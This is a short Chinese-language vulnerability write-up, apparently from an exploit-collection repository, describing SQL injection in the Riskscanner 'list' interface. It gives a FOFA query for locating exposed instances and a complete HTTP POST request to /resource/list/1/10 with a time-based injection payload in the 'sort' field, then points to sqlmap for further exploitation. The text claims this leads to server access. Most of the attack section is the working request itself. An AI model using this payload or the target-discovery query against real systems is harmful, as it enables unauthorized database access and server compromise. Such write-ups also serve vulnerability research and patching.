 # Riskscanner list SQL注入漏洞

## 漏洞描述

Riskscanner list接口存在SQL注入漏洞，通过漏洞可获取服务器权限

## 漏洞影响

```
Riskscanner
```

## FOFA

```
title="Riskscanner"
```

## 漏洞复现

登录页面



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101940023.png)



发送漏洞请求包



```plain
POST /resource/list/1/10 HTTP/1.1
Host: 
Content-Length: 41
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Content-Type: application/json;charset=UTF-8

{"sort":"1)a union select sleep(5) -- -"}
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101940005.png)



使用工具Sqlmap



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101940424.png)